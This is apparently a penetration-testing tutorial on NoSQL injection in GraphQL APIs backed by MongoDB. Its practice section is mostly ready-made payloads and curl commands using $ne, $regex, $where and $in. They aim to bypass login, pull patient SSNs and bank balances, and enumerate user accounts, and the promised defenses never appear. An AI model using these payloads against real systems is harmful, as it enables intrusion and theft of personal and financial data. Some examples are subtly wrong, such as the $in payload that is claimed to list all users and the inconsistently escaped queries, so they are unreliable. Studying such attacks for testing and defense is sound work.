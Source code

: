 ```yaml
---
title: Mastering NoSQL Injection in GraphQL and MongoDB
description: Explore NoSQL injection techniques to manipulate GraphQL API queries
  backed by MongoDB. Learn attack methods and defenses.
keywords:
- NoSQL injection
- GraphQL
- MongoDB
- $regex injection
- authentication bypass
- $where injection
- sensitive data extraction
---
```


# NOSQL Injection

## Context

NoSQL injection allows attackers to manipulate NoSQL queries through unsanitized user input in GraphQL APIs, particularly those backed by MongoDB. This technique exploits input validation weaknesses to inject NoSQL operators and access sensitive data or bypass authentication. This article assumes familiarity with NoSQL databases, GraphQL queries, MongoDB’s query language, and prior knowledge of GraphQL injection techniques.

## Theory

### NoSQL Injection Fundamentals in GraphQL Context

NoSQL injection involves the manipulation of NoSQL queries by exploiting input fields that dynamically construct these queries. In the context of GraphQL applications, the resolvers responsible for executing queries may directly incorporate user-provided data into NoSQL queries without proper validation. This vulnerability model relies on input that the server does not properly sanitize or validate, allowing attackers to inject operators like `$ne`, `$regex`, or `$where`, which substantially alter the intended query behavior.

### MongoDB Operator Injection Techniques

MongoDB supports various operators which, when not properly handled, can be used to subvert application logic. Operators such as `$ne` (not equal), `$in` (in array), `$regex` (pattern matching), and `$where` (JavaScript execution) come into play. An attack typically involves injecting these operators as values in input fields to bypass authentication checks or extract sensitive data. For example, injecting `$ne:null` could subvert standard equality logic checks, facilitating unauthorized access or data retrieval.

### NoSQL Injection via GraphQL APIs

In a GraphQL context, attackers craft queries with malicious input that, through the resolver, manipulates backend NoSQL queries. The data flow of such an attack is straightforward: user input moves to the GraphQL API, through the resolver, and down to the MongoDB, which then returns data back through the same pathway to the user. A successful injection manipulates this flow to unfairly access or alter data.

```mermaid
graph TD;
    UserInput-->GraphQLAPI;
    GraphQLAPI-->Resolver;
    Resolver-->MongoDB;
    MongoDB-->Resolver;
    Resolver-->GraphQLAPI;
    GraphQLAPI-->UserInput;
```

## Practice

### Authentication Bypass via $ne Operator Injection

- **Payload:** Inject the following into form fields to bypass authentication checks by subverting expected equality logic with `$ne`.
  ```json
  {
      "username": {"$ne": null},
      "password": {"$ne": null}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { login(username: \"{\"\$ne\":null}\", password: \"{\"\$ne\":null}\") { token } }"}'
  ```

- **Outcome:** This action will enable access without valid credentials by making the check always true, thereby bypassing authentication logic.

### Sensitive Data Extraction via $regex Injection

- **Payload:** Use this payload to extract data like SSNs by matching all possible entries with a $regex pattern.
  ```json
  {
      "ssn": {"$regex": ".*"}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { patients(filter: { ssn: \"{\\\"$regex\\\":\\\".*\\\"}\" }) { name ssn } }"}'
  ```

- **Outcome:** Gain access to extract sensitive patient SSNs, matching any entry and circumventing intended filters.

### Arbitrary Query Manipulation via $where Injection

- **Payload:** Filter records by injecting JavaScript logic with the $where operator to selectively extract information based on conditions like balance.
  ```json
  {
      "$where": "this.balance > 10000"
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { accounts(filter: \"{\\\"$where\\\":\\\"this.balance > 10000\\\"}\") { owner balance } }"}'
  ```

- **Outcome:** Access restricted financial data by executing JavaScript logic within MongoDB, targeting records with high balances.

### Bulk Data Access via $in Operator Injection

- **Payload:** Use the $in operator to match multiple usernames, fetching bulk data.
  ```json
  {
      "username": {"$in": [""]}
  }
  ```

- **Command Line:**
  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' \
  --data '{"query": "query { users(filter: { username: \"{\\\"$in\\\":[\\\"\\\"]}\" }) { username email } }"}'
  ```

- **Outcome:** Enumerate all user accounts by exploiting the username filter, accessing extensive sensitive data lists.

## Tools

- **curl**
- **Burp Suite**
- **Postman** 

Each of these tools facilitates interaction and testing against web services, enabling the crafting and dispatch of GraphQL queries to exploit NoSQL injection vulnerabilities effectively.